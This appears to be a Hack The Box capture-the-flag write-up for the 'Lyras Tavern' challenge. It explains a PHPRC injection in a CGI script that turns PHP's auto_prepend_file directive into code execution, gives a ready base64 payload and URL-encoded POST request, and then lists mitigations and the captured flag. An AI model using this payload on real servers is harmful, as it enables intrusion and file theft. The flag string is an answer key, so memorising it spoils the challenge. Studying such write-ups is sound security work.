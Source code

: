 # Secure Coding - Lyras Tavern

## Challenge Information
- **Category**: Secure Coding
- **Challenge Name**: Lyras Tavern

## Vulnerability Overview

The Lyra's Tavern application contains a critical vulnerability in the `app.cgi` script that allows an attacker to:

1. Override PHP configuration settings by controlling the PHPRC environment variable
2. Execute arbitrary PHP code via the `auto_prepend_file` directive
3. Read sensitive files from the server, including the flag file

## How the Vulnerability Works

1. The `app.cgi` script accepts a `PHPRC` parameter from user input:
   ```php
   $phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
   ```

2. It then sets this as an environment variable that controls PHP's configuration:
   ```php
   putenv("PHPRC=" . $phprc);
   ```

3. By setting `PHPRC=/dev/fd/0`, we can make PHP read its configuration from standard input
   - `/dev/fd/0` is a special file that corresponds to stdin

4. The script also accepts a `data` parameter that gets passed to PHP via stdin:
   ```php
   $cmd = "printf \"%b\" " . escapeshellarg($data);
   $cmd = $cmd . " | php /www/application/config.php";
   ```

5. We can inject PHP configuration directives through this `data` parameter:
   - `allow_url_include=1` - Enables inclusion of remote files via URL
   - `auto_prepend_file=data://...` - Makes PHP execute our code before any script

## The Exploit Step by Step

1. **Create a PHP payload** that will read the flag file:
   ```php
   <?php system("cat /flag.txt"); ?>
   ```

2. **Encode the payload as a base64 data URL**:
   ```
   data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8+
   ```

3. **Format the request** with:
   - URL: `http://<target>/cgi-bin/app.cgi?PHPRC=/dev/fd/0`
   - POST data: `data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8%2B%22`

4. When this request is processed:
   - PHP reads its configuration from our provided data
   - The `auto_prepend_file` directive makes it execute our payload
   - Our payload runs `cat /flag.txt` and outputs the flag

## Flag
```
HTB{N0W_Y0U_S33_M3_N0W_Y0U_D0NT!@_672eda5ab455a16bb2248bba717144f3}
```

## Why This Works

The vulnerability exists because:

1. The application allows user control of the `PHPRC` environment variable
2. It then executes PHP with this configuration
3. The `/dev/fd/0` trick allows us to supply both the configuration and the execution data in a single request
4. PHP's `auto_prepend_file` directive lets us execute code before any script runs

## Mitigation

To prevent this vulnerability:

1. Never allow users to control the `PHPRC` environment variable
2. Use proper input validation for all user-supplied data
3. Disable dangerous PHP directives like `allow_url_include`
4. Run PHP with restricted permissions
5. Implement proper filesystem access controls

**Author**: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)